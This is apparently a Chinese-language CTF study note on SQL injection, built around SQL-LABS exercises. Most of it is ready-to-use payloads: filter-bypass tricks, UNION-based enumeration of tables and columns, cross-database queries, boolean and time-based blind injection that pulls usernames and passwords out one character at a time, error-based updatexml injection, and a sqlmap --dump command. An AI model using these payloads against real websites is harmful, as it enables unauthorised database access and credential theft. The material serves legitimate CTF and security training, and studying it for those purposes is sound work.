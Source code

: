 # CTF WEB SQL

漏洞原理：

脚本代码在实现代码与数据库进行数据通讯时，将定义的SQL语句进行执行查询数据时。其中的SQL语句能够通过参数传递的自定义的值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（如数据库中的敏感数据，管理员账号密码等）。

## Tips

### 常用绕过

- #、--+等注释符号

  %23

- 空格

  /**/

- =

  like

- or

  ||

### 回显位数不够

- 使用截断函数进行绕过

  例如group_concat(flag)为输出flag语句，可以使用substr，right，REVERSE，mid进行绕过

  mid举例MID( column_name ,start[,length])

  

## SQL-LABS

1. 先找到是数字型注入还是字符型注入 并判断闭合符

	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

	?id=1' and 1=2--+ -> 判断‘是否为闭合符

	简单粗暴一点：就是直接看回显有没有报错

	找到之后还可以试试万能钥匙（以单引号为闭合符为例）

	?id = a' or true#

2. 找到回显位

	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```



4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+

6. 跳过过滤：

   空格：转换为/**/

   union：双写为ununionion

#### 跨库注入

1. 先找到指定的库的名字

   ```sql
   union select schema_name,2,3 from information_schema.schmata
   ```

   假设获取的是库名是admin114514

2. 再同上利用范式获取表名即可 但是需要注意命令的差异

   ```sql
   union select 1,group_concat(table_name)from information_schema.tables where table_schema='admin114514'--+
   ```

   假设我们获取的表名是fl4g

3. 同上获取列名

   假设我们获取的列名是fllllag

4. 获取指定数据

   假设我们要获取的是列fllllag中的password数据

   ```sql
   union select 1,password from fl4g.fllllag--+
   ```

   

​	

#### sqlite注入

[sqlite注入的一点总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8627?u_atoken=100bccca0fa7b41dc93d4d361afe51c9&u_asig=1a0c39a017268046181531556e0035)

#### 布尔盲注

3. 布尔盲注（回显为you are in....）

   ```php
   ?id=1'and length((select database()))>9--+
   #大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
   ?id=1'and ascii(substr((select database()),1,1))=115--+
   #substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
    
    
   ?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
   判断所有表名字符长度。
   ?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
   逐一判断表名
    
   ?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
   判断所有字段名的长度
   ?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
   逐一判断字段名。
    
    
   ?id=1' and length((select group_concat(username,password) from users))>109--+
   判断字段内容长度
   ?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
   逐一检测内容。
    
    
    
   ```
   
   时间盲注（无论输入什么东西回显都一样）
   
   ```php
   ?id=1' and if(1=1,sleep(5),1)--+
   判断参数构造。
   ?id=1'and if(length((select database()))>9,sleep(5),1)--+
   判断数据库名长度
    
   ?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
   逐一判断数据库字符
   ?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
   判断所有表名长度
    
   ?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
   逐一判断表名
   ?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
   判断所有字段名的长度
    
   ?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
   逐一判断字段名。
   ?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
   判断字段内容长度
    
    
    
   ?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
   逐一检测内容。
   ```
   

#### 报错注入

- **当网站开启错误调试信息时可用此方法注入（不然只能盲注）**

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump



#### 偏移注入

- **在我们只能猜解出表名，而猜解不出我们所想要的字段名的情况下，直接爆最后的字段数据。**

  适用于Microsoft Access数据库（没有`information_schema`数据库）

